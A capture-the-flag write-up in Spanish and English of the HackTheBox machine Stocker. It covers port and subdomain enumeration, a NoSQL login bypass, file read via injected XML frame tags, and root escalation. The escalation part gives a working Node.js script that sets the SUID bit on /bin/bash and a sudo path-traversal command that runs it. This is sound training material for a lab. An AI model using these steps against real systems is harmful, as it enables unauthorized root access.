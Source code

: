 ```yaml
---
title: Stocker
date: 2023-01-28 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [NoSQL, SSRF]     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.92 scan initiated Sat Jan 28 13:26:34 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.196
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 28 13:26:54 2023 -- 1 IP address (1 host up) scanned in 19.94 seconds 
```
En primeras nos encontramos con una página estática sin nada importante que encontrar. Por lo que procedemos a enumerar subdominios.

![imagen1](/assets/images/Stocker/stocker1.png)

```shell
gobuster vhost -w /usr/share/Seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://stocker.htb/"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/Seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/28 14:19:48 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
```
Nos encontramos con el subdominio dev, en esta encontramos un login.

![imagen1](/assets/images/Stocker/stocker2.png)

Para poder hacer bypass se intentó con sql pero sin ningún resultado, por lo que se intentó con nosql con este bypass que no reedirige a /stock.

![imagen3](/assets/images/Stocker/stocker3.png)

Dentro de stock podemos indicar mercancia para generar un xml donde muestra todos los items añadidos, sabiendo esto, podemos usar la etiqueta `frame` para añadir algún archivo del sistema.

![imagen4](/assets/images/Stocker/stocker4.png)

![imagen5](/assets/images/Stocker/stocker5.png)

Una vez generado el xml nos reedirige a la ruta `http://dev.stocker.htb/api/po/63d58bdd688c378da7599f33` donde lo último es el hash generado de la compra. Sabiendo que podemos leer archivos del sistema intentamos leer 

![imagen6](/assets/images/Stocker/stocker6.png)

Un archivo usual de ver es `nginx.conf` para visualizar rutas donde podamos encontrar archivos de configuración. Dentro de `/etc/nginx/nginx.conf` encontramos que el dominio `dev.stocker.htb` se encuentra en la ruta `/var/www/dev`, hacemos una búsqueda por el archivo index.js para encontrar el contenido de la página.

```shell
bash-5.0# cat nginx.conf

<SNIP> 
server {
            listen 80;

            root /var/www/dev;
            index index.html index.htm index.nginx-debian.html;

            server_name dev.stocker.htb;

            location / {
                proxy_pass http://127.0.0.1:3000;
                proxy_http_version  1.1;
                proxy_cache_bypass  $http_upgrade;

                proxy_set_header Upgrade           $http_upgrade;
                proxy_set_header Connection        "upgrade";
                proxy_set_header Host              $host;
                proxy_set_header X-Real-IP         $remote_addr;
                proxy_set_header X-Forwarded-For   $proxy_add_x_forwarded_for;
                proxy_set_header X-Forwarded-Proto $scheme;
                proxy_set_header X-Forwarded-Host  $host;
                proxy_set_header X-Forwarded-Port  $server_port;
            }
        }
<SNIP>
```
![imagen7](/assets/images/Stocker/stocker7.png)

With this creds we tried to login with angoose and we are in. Inside we see sudo rights and we see that we have sudo to execute all js files in `/var/local/scripts`. We make a js file to execute bash to make it suid.

```shell
-bash-5.0$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

```shell
bash-5.0# cat /tmp/suid.js 
const { exec } = require('node:child_process')

// run the `ls` command using exec
exec('chmod u+s /bin/bash', (err, output) => {
    // once the command has completed, the callback function is called
    if (err) {
        // log and return if we encounter an error
        console.error("could not execute command: ", err)
        return
    }
    // log the output received from the command
    console.log("Output: \n", output)
})
```
Finally we just run node but with this bypass to execute our file in /tmp directory.

```shell
-bash-5.0$ sudo /usr/bin/node /usr/local/scripts/../../../../../../tmp/shell.js
Output: 
 
-bash-5.0$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```


